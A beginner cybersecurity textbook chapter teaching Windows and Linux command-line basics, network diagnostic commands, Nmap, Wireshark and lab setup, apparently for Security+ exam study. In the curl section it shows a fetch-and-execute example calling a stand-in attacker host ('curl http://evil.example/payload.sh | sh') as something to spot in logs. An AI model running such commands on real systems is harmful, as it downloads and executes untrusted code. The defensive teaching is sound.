

# Chapter 9 — The Command Line: Your First Security Tools

**Level 1 · Basic Foundation to Understand to Start**

---

## 🎯 Goal

By the end of this chapter you will be comfortable opening a **terminal** on Windows and Linux, moving around folders, reading files, and using the **network commands** every security person uses daily: `ping`, `tracert/traceroute`, `ipconfig/ip`, `nslookup/dig`, `netstat/ss`, `arp` and `curl`. You'll also meet **Nmap**, **Wireshark** and **tcpdump**, and learn the **rules for using them legally**.

---

## 🏠 Real-Life Story: Pointing vs Talking 🗣️

Using a **graphical interface (GUI)** is like ordering food by **pointing at pictures** on a menu. It's easy, but you can only order what's pictured.

Using the **command line (CLI)** is like **speaking the chef's language**. You can ask for exactly what you want, much faster, and even write down a list of orders for someone else to repeat (a **script**).

Security professionals use the CLI because:
- Many servers (especially Linux) have **no GUI at all**.
- Commands can be **automated** with scripts.
- Security tools are often **command-line only**.
- Attackers use the CLI too, so you need to recognize what they're doing in logs (e.g., suspicious **PowerShell** commands).

---

## 📖 Meet the Terminals

| OS | Terminal | How to open |
|---|---|---|
| Windows | **Command Prompt (CMD)**: the classic, simple one | `Win + R` → type `cmd` → Enter |
| Windows | **PowerShell**: modern and very powerful (admins *and* attackers love it) | `Win + X` → Terminal / PowerShell |
| Linux | **Bash** (or zsh) shell in a **Terminal** | `Ctrl + Alt + T` (Ubuntu) |
| macOS | **Terminal** (zsh) | `Cmd + Space` → type "Terminal" |

## 🖼️ Figure 9.1 — Anatomy of a Command

```
   alice@lab:~$  ls  -l  /var/log
   └────┬─────┘  └┬┘ └┬┘ └───┬──┘
     prompt      cmd  option  argument
   (who@where    (what  (how to   (what to do
    and $ = normal  to do) do it)   it on)
    user, # = root)

   C:\Users\Alice>  ping  -n 2  8.8.8.8
   └──────┬───────┘ └─┬┘  └─┬─┘  └──┬──┘
       prompt        cmd  option  argument
   (current folder)
```

> 💡 **Tips:** Press **Tab** to auto-complete names. Press **↑** to repeat earlier commands. Linux is **case-sensitive** (`File.txt` ≠ `file.txt`); Windows mostly isn't. Help is always nearby: `command /?` (CMD), `Get-Help command` (PowerShell), `man command` or `command --help` (Linux).

---

## 📖 Part 1 — Moving Around and Handling Files

## 🖼️ Figure 9.2 — Windows ↔ Linux Command Translator

| Task | Windows CMD | Linux / macOS |
|---|---|---|
| Where am I? | `cd` | `pwd` |
| List files | `dir` | `ls -l` (add `-a` to show hidden files) |
| Change folder | `cd Documents` · `cd ..` (go up) | `cd Documents` · `cd ..` |
| Show a file's contents | `type notes.txt` | `cat notes.txt` (or `less` for long files) |
| Copy | `copy a.txt b.txt` | `cp a.txt b.txt` |
| Move / rename | `move a.txt folder\` | `mv a.txt folder/` |
| Delete a file | `del a.txt` | `rm a.txt` ⚠️ (no recycle bin!) |
| Make a folder | `mkdir reports` | `mkdir reports` |
| Search inside files | `findstr "error" log.txt` | `grep "error" log.txt` |
| Clear the screen | `cls` | `clear` |
| Who am I? | `whoami` | `whoami` |
| Run as admin/root | Right-click → "Run as administrator" | `sudo command` |
| Change permissions | `icacls` | `chmod` / `chown` (Chapter 2) |
| Show running processes | `tasklist` | `ps aux` or `top` |
| Stop a process | `taskkill /PID 1234` | `kill 1234` |

### The Power of the Pipe `|`

The **pipe** sends one command's output into another command, like connecting two water pipes.

```bash
cat /var/log/auth.log | grep "Failed password"
#  └── print the log ──┘   └── keep only lines about failed logins ──┘
```

> 🔐 That one line is a real security task: it **finds failed login attempts**, which could be a brute-force attack (Chapter 26).

---

## 📖 Part 2 — Network Commands (the core toolkit) 🌐

### 1. `ping` — "Are you there?"

Sends ICMP Echo Requests (Chapter 5) and measures the reply time.

```
C:\> ping 8.8.8.8

Pinging 8.8.8.8 with 32 bytes of data:
Reply from 8.8.8.8: bytes=32 time=14ms TTL=117      ◄── it answered in 14 milliseconds
Reply from 8.8.8.8: bytes=32 time=13ms TTL=117
Request timed out.                                   ◄── a packet was lost
Reply from 8.8.8.8: bytes=32 time=15ms TTL=117
```

- Windows sends 4 pings. Linux keeps going until you press `Ctrl + C`.
- "Request timed out" can mean the host is down, **or** a firewall blocks ICMP.

### 2. `tracert` (Windows) / `traceroute` (Linux/macOS) — "Which roads did we take?"

## 🖼️ Figure 9.3 — Traceroute as a Road Trip

```
   C:\> tracert 8.8.8.8

    1     1 ms   192.168.1.1        🏠 your home router (default gateway)
    2     8 ms   10.20.0.1          🏘️ your internet provider's local hub
    3    12 ms   198.51.100.1       🛣️ motorway junction (provider backbone)
    4    13 ms   * * *              🌫️ a router that doesn't answer (ICMP blocked)
    5    14 ms   8.8.8.8            🏁 destination reached

   💻 ──► 🏠 ──► 🏘️ ──► 🛣️ ──► 🌫️ ──► 🏁
   Each "hop" is a router your packets passed through.
```

Useful for finding **where** a connection breaks or slows down.

### 3. `ipconfig` (Windows) / `ip a` (Linux) / `ifconfig` (macOS) — "What's my address?"

```
C:\> ipconfig /all
   Physical Address. . . . . . . . . : 3C-22-FB-9A-10-7E     ◄── MAC address
   DHCP Enabled. . . . . . . . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 192.168.1.20         ◄── private IP
   Subnet Mask . . . . . . . . . . . : 255.255.255.0        ◄── /24
   Default Gateway . . . . . . . . . : 192.168.1.1          ◄── router
   DNS Servers . . . . . . . . . . . : 192.168.1.1
```

Extra Windows options: `ipconfig /release` and `/renew` (get a new DHCP address) and `ipconfig /flushdns` (clear the DNS cache, useful after DNS poisoning).

### 4. `nslookup` / `dig` — "Ask DNS a question"

```
$ nslookup example.com
Server:   192.168.1.1          ◄── the DNS resolver that answered
Name:     example.com
Address:  203.0.113.80          ◄── the answer (IP shown here is an example)

$ dig example.com MX +short    ◄── Linux: ask for the mail server records
```

### 5. `netstat` (Windows/macOS) / `ss` (Linux) — "Who am I talking to?"

## 🖼️ Figure 9.4 — Reading `netstat -ano`

```
C:\> netstat -ano
  Proto  Local Address        Foreign Address        State         PID
  TCP    0.0.0.0:135          0.0.0.0:0              LISTENING     1012   ◄── a service waiting for
  TCP    0.0.0.0:3389         0.0.0.0:0              LISTENING     1256       connections (an OPEN PORT)
  TCP    192.168.1.20:51544   203.0.113.10:443       ESTABLISHED   7420   ◄── your browser talking HTTPS
  TCP    192.168.1.20:51602   198.51.100.66:4444     ESTABLISHED   6688   ◄── 🚩 SUSPICIOUS! Port 4444 is
                                                                              a classic hacker-tool default
         └─ your IP:port ─┘   └─ remote IP:port ─┘                └─ which process (look it up in
                                                                     Task Manager / tasklist)
```

- **LISTENING** = an open port waiting for visitors (a possible door in).
- **ESTABLISHED** = an active conversation.
- `-a` all, `-n` numbers only (no name lookups), `-o` show the process ID. Linux equivalent: `ss -tunap`.

> 🔐 Incident responders use `netstat` to spot **unexpected connections**, for example malware "phoning home" to an attacker's server (**command and control, C2**).

### 6. `arp -a` — "Who's on my local network?"

Shows the ARP cache: IP ↔ MAC pairs (Chapter 4). If **two different IPs show the same MAC**, especially your gateway's IP, that may be **ARP poisoning**.

### 7. `curl` — "Fetch a web page from the terminal"

```bash
curl -I https://example.com      # -I = show only the HTTP headers
HTTP/2 200                        # ◄── status code (Chapter 6)
content-type: text/html
```

Used to test websites and APIs, and spotted in logs when attackers download malware (`curl http://evil.example/payload.sh | sh` 🚩).

### 8. `route print` / `ip route` — "Which way to send traffic?"

Shows the **routing table**: where traffic for each network goes, including the default gateway.

## 🖼️ Figure 9.5 — Which Tool Answers Which Question?



---

## 📖 Part 3 — Security Tools You'll Meet Everywhere 🛠️

> ⚖️ **THE GOLDEN RULE:** Only scan, capture or test **systems you own** or have **written permission** to test. Scanning other people's networks can be **illegal**, even "just to look." Use your home lab (Chapter 8) or legal practice sites such as `scanme.nmap.org`, which Nmap's creators provide for exactly this.

### Nmap — The Network Mapper 🗺️

Discovers **which hosts are up** and **which ports are open**, and guesses which services and OS they run.

```
$ nmap -sV 192.168.56.101

PORT     STATE   SERVICE   VERSION
22/tcp   open    ssh       OpenSSH 8.9
80/tcp   open    http      Apache httpd 2.4.52
3306/tcp closed  mysql
```

| Option | Meaning |
|---|---|
| `nmap 192.168.56.0/24` | Scan a whole network range |
| `-sS` | SYN ("half-open") scan: sends SYN, never completes the handshake (Chapter 5) |
| `-sV` | Detect service **versions** (helps find outdated, vulnerable software) |
| `-O` | Guess the **OS** |
| `-p 1-1000` | Choose which ports to scan |

> 🔐 Defenders use Nmap to find **unexpected open ports** on their own network. Attackers use it for **reconnaissance**. Many port scans showing up in firewall logs is an early warning sign (Chapter 42).

### Wireshark & tcpdump — Packet Capture 🔍

**Wireshark** (graphical) and **tcpdump** (command line) record every packet passing through a network card. This is called a **packet capture**, or **pcap**.

## 🖼️ Figure 9.6 — Wireshark Showing a Plaintext Password

```
 ┌─ Filter: ftp ───────────────────────────────────────────────────────────┐
 │ No.  Source          Destination     Protocol  Info                     │
 │ 14   192.168.56.10   192.168.56.101  FTP       Request: USER alice      │
 │ 16   192.168.56.10   192.168.56.101  FTP       Request: PASS Summer2024! │ ◄── 🚩 password visible!
 │ 18   192.168.56.101  192.168.56.10   FTP       Response: 230 Logged in  │
 └─────────────────────────────────────────────────────────────────────────┘
   This is WHY insecure protocols (FTP, Telnet, HTTP) must be replaced (Chapter 6).
```

```bash
sudo tcpdump -i eth0 port 53          # capture only DNS traffic on interface eth0
sudo tcpdump -i eth0 -w capture.pcap  # save to a file to open later in Wireshark
```

### Hashing Commands (from Chapter 3)

| OS | Command |
|---|---|
| Windows | `certutil -hashfile file.iso SHA256` or `Get-FileHash file.iso` |
| Linux | `sha256sum file.iso` |
| macOS | `shasum -a 256 file.iso` |

### Where the Logs Live 📜

| OS | Where to look |
|---|---|
| Windows | **Event Viewer** (`eventvwr.msc`) → Windows Logs → **Security** (logins), **System**, **Application** |
| Linux | `/var/log/` folder: `auth.log` or `secure` (logins), `syslog` or `messages`. Also `journalctl` |

> 🔐 Windows **Event ID 4624** = successful login. **4625** = failed login. A burst of 4625s = someone guessing passwords. You'll use this in Chapter 42.

---

## 📖 Part 4 — Set Up Your Home Lab Network Safely 🧪

In your VirtualBox lab (Chapter 8), the network mode decides who your VMs can talk to:

## 🖼️ Figure 9.7 — VirtualBox Network Modes

```
   NAT (default)          Host-only               Bridged                    Internal network
   ─────────────          ─────────               ───────                    ────────────────
   VM ──► internet ✔      VM ◄──► your PC ✔       VM appears as a REAL       VMs talk only to
   Others can't reach     No internet ✘           device on your home        each other ✔
   the VM                 Safe for attack labs    network ⚠️                  Safest for malware/
                                                  (others can see it)        attack practice
```

**Recommended starter lab:**
- **Kali Linux** VM (attacker/tester tools pre-installed: Nmap, Wireshark and more).
- A deliberately vulnerable target VM such as **Metasploitable 2** (*never* connect it to the internet or a bridged network!).
- Both on a **host-only** or **internal** network.

---

## 🧠 Memory Tricks

- **"Ping = knock on the door. Tracert = map the route. Nslookup = phone book. Netstat = who's on the line."**
- **Windows ↔ Linux pairs:** `ipconfig ↔ ip a`, `tracert ↔ traceroute`, `type ↔ cat`, `dir ↔ ls`, `findstr ↔ grep`, `netstat ↔ ss`.
- **4624 = "4 the win"** (success). **4625 = "5 = fail"** (failed login).

---

## ⚠️ Exam Tip

SY0-701 doesn't ask you to type commands, but it *does* give you **command output or log snippets** to interpret, especially in PBQs:

- Output showing many **open ports** on a server → **unnecessary services; harden by disabling them.**
- A `netstat` line to an unknown IP on an odd port → possible **C2 / malware beaconing.**
- A packet capture showing `USER`/`PASS` in clear text → **insecure protocol (FTP/Telnet/HTTP); replace with SFTP/SSH/HTTPS.**
- Many **failed logins (4625)** from one IP → **brute-force / password attack.**
- `nmap` against company servers by an unknown person → **reconnaissance / active scanning.**

---

## 🧪 Try It (30 minutes)

1. Open a terminal and run: `whoami`, `ipconfig /all` (or `ip a`), `ping -n 4 8.8.8.8` (Linux: `ping -c 4 8.8.8.8`).
2. Run `tracert 1.1.1.1` / `traceroute 1.1.1.1`. How many hops? Where is the slowest hop?
3. Run `nslookup -type=MX gmail.com`. Which servers handle Gmail?
4. Run `netstat -ano` (or `ss -tunap`). Find one **LISTENING** port and one **ESTABLISHED** connection. Which program owns them?
5. In your lab only: `nmap -sV <your-lab-VM-IP>`. Which ports are open?
6. Start Wireshark, browse a website, and filter by `dns`. Find the DNS query for the site you visited.
7. Windows: open **Event Viewer → Windows Logs → Security**, then filter for **Event ID 4624**. These are your own logins!

---

## ✅ Checkpoint Questions

1. Which command shows your IP address, subnet mask and default gateway on Windows? On Linux?
2. Which command shows every router hop between you and a destination?
3. Which command finds the IP address of a domain name?
4. In `netstat` output, what does the state **LISTENING** mean?
5. What does the pipe `|` do?
6. What's the Linux equivalent of the Windows `findstr` command?
7. What does `nmap -sV` add to a scan?
8. You capture traffic and can read a username and password in Wireshark. What does that tell you about the protocol in use?
9. Which Windows Event ID shows a **failed** login?
10. Why should you never put a deliberately vulnerable VM on a bridged network?

<details>
<summary><b>Show answers</b></summary>

1. Windows: **`ipconfig`** (`/all` for more detail). Linux: **`ip a`** (and `ip route` for the gateway).
2. **`tracert`** (Windows) / **`traceroute`** (Linux/macOS).
3. **`nslookup`** (or `dig` on Linux/macOS).
4. A program has an **open port waiting for incoming connections**.
5. It sends the **output of one command into the input of the next**.
6. **`grep`.**
7. **Service version detection**: it shows which software and version runs on each open port.
8. The protocol is **unencrypted (plaintext)**, e.g., FTP, Telnet or HTTP. It should be replaced with a secure version.
9. **4625.**
10. A bridged VM is **visible to the real network**, so real attackers (or worms) on that network could compromise it and use it as a foothold.

</details>

---

## 📌 Chapter Summary

| Command / tool | Question it answers | Security use |
|---|---|---|
| `ping` | Is it reachable? | Basic troubleshooting; ICMP may be blocked |
| `tracert` / `traceroute` | Which path? | Find where traffic breaks |
| `ipconfig` / `ip a` | My IP, MAC, gateway, DNS? | Spot rogue DHCP / wrong DNS |
| `nslookup` / `dig` | Name → IP? Which mail servers? | Investigate DNS issues, check SPF records |
| `netstat` / `ss` | Open ports and connections? | Spot malware C2, unneeded services |
| `arp -a` | IP ↔ MAC on the LAN? | Spot ARP poisoning |
| `curl` | Does this URL respond? | Test web apps; spot malicious downloads in logs |
| Nmap | What's open on other hosts? | Recon (attack) / audits (defense). **Permission only!** |
| Wireshark / tcpdump | What's inside the traffic? | Find plaintext credentials and attacks |
| Event Viewer / `/var/log` | What happened? | Investigations (4624/4625) |

**Next chapter →** *Chapter 10: What Is Cybersecurity?* You now know how computers and networks work. Time to meet the people who attack them, and the people who defend them.
